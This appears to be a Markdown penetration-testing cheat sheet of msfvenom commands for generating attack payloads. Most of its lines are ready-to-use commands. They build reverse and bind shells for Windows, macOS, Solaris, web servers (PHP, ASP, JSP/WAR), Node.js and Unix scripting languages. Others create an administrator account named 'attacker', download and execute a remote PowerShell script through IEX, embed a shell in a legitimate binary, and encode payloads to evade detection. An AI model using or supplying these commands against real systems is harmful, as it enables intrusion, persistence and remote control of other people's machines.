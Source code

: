 # MSFVenom

## Usage
- msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>


## Commands
### Payloads
- msfvenom -l payloads 

### Encoders
- msfvenom -l encoders 


### Options
#### Banned characters
-b "\x00\x0a\x0d" 

#### Format
-f c 

#### Encoders
-e x86/shikata_ga_nai -i 5 

#### Inline options
- EXITFUNC=thread
- PrependSetuid=True #Use this to create a shellcode that will execute something with SUID


## Shells
### Reverse 
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

### Bind
- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe


## Payloads
### Add user
- msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

### Run commands
- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
- msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

### Embedded 
- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

### Platforms
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
- msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
- msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
